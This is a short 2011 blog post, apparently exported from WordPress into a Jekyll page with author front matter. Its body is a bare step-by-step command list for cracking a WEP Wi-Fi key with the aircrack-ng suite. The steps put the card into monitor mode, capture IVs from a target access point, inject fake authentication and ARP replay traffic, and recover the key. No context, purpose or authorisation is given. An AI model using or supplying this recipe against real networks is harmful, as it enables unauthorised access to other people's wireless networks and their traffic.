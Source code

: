 ```yaml
---
layout: post
status: publish
published: true
title: WIFI WEP AirCrack-ng
author:
  display_name: Pavel Dostál
  login: quick
  email: pdostal@pdostal.cz
  url: http://pdostal.cz/
author_login: quick
author_email: pdostal@pdostal.cz
author_url: http://pdostal.cz/
wordpress_id: 10
wordpress_url: http://pdostal.cz/?p=10
date: '2011-03-10 10:05:00 +0100'
date_gmt: '2011-03-10 10:05:00 +0100'
categories:
- Software
tags: []
comments: []
---
```

<ul>
<li>iwlist IFACE scan</li>
<li>ip l s wlan1 down</li>
<li>iwconfig IFACE mode Monitor channel CHAN</li>
<li>airmon-ng start IFACE</li>
<li>airodump-ng --bssid DESTMAC --ivs -w FILE --ch KANAL IFACE</li>
<li>aireplay-ng -1 0 -e ESSID -a DESTMAC -h SRCMAC IFACE</li>
<li>aireplay-ng -3 -b DESTMAC -h SRCMAC -x 600 IFACE</li>
<li>aircrack-ng -z -b DESTMAC FILE.ivs
<li>
</ul>
